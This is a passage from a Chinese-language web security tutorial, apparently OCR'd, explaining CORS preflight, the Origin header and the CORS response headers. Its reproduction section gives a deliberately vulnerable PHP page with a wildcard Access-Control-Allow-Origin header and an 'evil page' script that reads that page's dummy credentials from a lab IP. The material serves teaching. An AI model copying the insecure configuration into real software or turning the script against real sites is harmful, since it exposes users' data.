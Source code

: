 **简单跨域请求**:	使用设定的请求方式请求数据，
**非简单跨域请求**:	在使用设定的请求方式请求数据之前，先发送一个 OPTIONS 预检请求，验证请求源是否为服务端允许源。只有"预检"通过后才会再发送一次请求用于数据传输。

当发送一个跨域请求的时候，浏览器会首先检查这个请求，如果它是简单跨域请求，浏览器就会立刻发送这个请求。如果它是非简单跨域请求，这时候浏览器不会马上发送这个请求，而是有一个跟服务器预检验证的过程。



**CORS 运行机制**：
在浏览器进行请求时，自动在请求头中添加 Origin 字段，

服务端通过验证 Origin 字段来判断请求是否被允许，从而实现浏览器进行跨源访问
**CORS 漏洞**：
浏览器自动在 Http 请求头加上 Origin 字段，服务器通过判断 Origin 字段的值来判断 请求是否可以读取本站资源。

**字段解释**：

**Access-Control-Allow-Origin**：该字段是必须的。它的值要么是请求时 Origin 字段的值，要么是一
个*，表示接受任意域名的请求。
**Access-Control-Allow-Credentials**：该字段可选。它的值是一个布尔值，表示是否允许发送 Cookie。
默认情况下，Cookie 不包括在 CORS 请求之中。当设置为 true 时，即表示服务器明确许可，Cookie 可以包
含在请求中，一起发给服务器。这个值也只能设为 true，如果服务器不要浏览器发送 Cookie，删除该字段
即可。
**Access-Control-Expose-Headers** ： 该 字 段 可 选 。 CORS 请 求 时 ， XMLHttpRequest 对 象 的
getResponseHeader()方法只能拿到 6 个基本字段：Cache-Control、Content-Language、Content-Type、
Expires、Last-Modified、Pragma。如果想拿到其他字段，就必须在 Access-Control-Expose-Headers 里
面指定。



### 3.2 复现过程

服务器端代码：

```
<?php
header("Access-Control-Allow-Origin:*");
echo "username: admin; password:123456";
?>
```

攻击主机代码：

```
<!DOCTYPE>
<html>
<h1>Hello I evil page</h1>
<script type="text/javascript">
function loadXMLDoc()
{
 var xhr = new XMLHttpRequest();
  xhr.onreadystatechange=function()
 {
 if(xhr.readyState == 4 && xhr.status == 200) //if receive xhr response
 {
 var datas=xhr.responseText
;
 alert(datas);
 }
 }
 //request vuln page
 
xhr.open("GET","http://172.16.4.192/2.php","true")
 xhr.send();
}
loadXMLDoc();
</script>
</html>
```
